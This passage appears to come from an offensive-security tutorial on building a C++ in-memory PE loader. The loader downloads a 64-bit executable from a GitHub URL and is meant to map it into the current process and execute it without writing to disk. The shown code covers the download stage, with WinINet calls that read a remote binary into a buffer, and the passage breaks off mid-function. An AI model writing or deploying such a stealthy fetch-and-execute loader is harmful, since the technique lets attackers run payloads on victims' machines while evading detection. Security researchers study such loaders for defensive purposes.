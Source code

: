**Here's what's happening at a high level overview:**

- The code we will be writing is an in-memory PE loader that downloads a 64-bit executable from a github URL
- We map it into memory within our existing process
- We resolve its dependencies
- Apply relocations
- Set memory protections
- Execute it!

Next, I'll walk you through the code and the thought process behind it.

***Downloading the PE***
-

```cpp
bool LoadPEInMemory(){
    // Step 1: Load PE from disk (we don't use this, but I left it so you can see how this would work if we didn't use an in-memory PE loader and loaded the PE from disk instead :) )
   /*
    HANDLE hFile = CreateFileA(pePath.c_str(), GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        std::cerr << "[!] Cannot open PE file\n";
        return false;
    }

    DWORD fileSize = GetFileSize(hFile, NULL);
    std::vector<BYTE> fileBuffer(fileSize);
    DWORD bytesRead = 0;
    ReadFile(hFile, fileBuffer.data(), fileSize, &bytesRead, NULL);
    CloseHandle(hFile);
    */

    const char* agent = "Mozilla/5.0";
    const char* url = "https://github.com/g3tsyst3m/undertheradar/raw/refs/heads/main/putty.exe";

    // ---- Open Internet session ----
    HINTERNET hInternet = InternetOpenA(agent, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) {
        std::cerr << "InternetOpenA failed: " << GetLastError() << "\n";
        return 1;
    }

    // ---- Open URL ----
    HINTERNET hUrl = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_NO_CACHE_WRITE, 0);
    if (!hUrl) {
        std::cerr << "InternetOpenUrlA failed: " << GetLastError() << "\n";
        InternetCloseHandle(hInternet);
        return 1;
    }

    // ---- Read PE Executable into memory ----
    //std::vector<char> data;
    std::vector<BYTE> fileBuffer;
    char chunk[4096];
    DWORD bytesRead = 0;
    while (InternetReadFile(hUrl, chunk, sizeof(chunk), &bytesRead) && bytesRead > 0) {
        fileBuffer.insert(fileBuffer.end(), chunk, chunk + bytesRead);
    }

    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);

    if (fileBuffer.empty()) {
        std::cerr << "[-] Failed to download data.\n";
```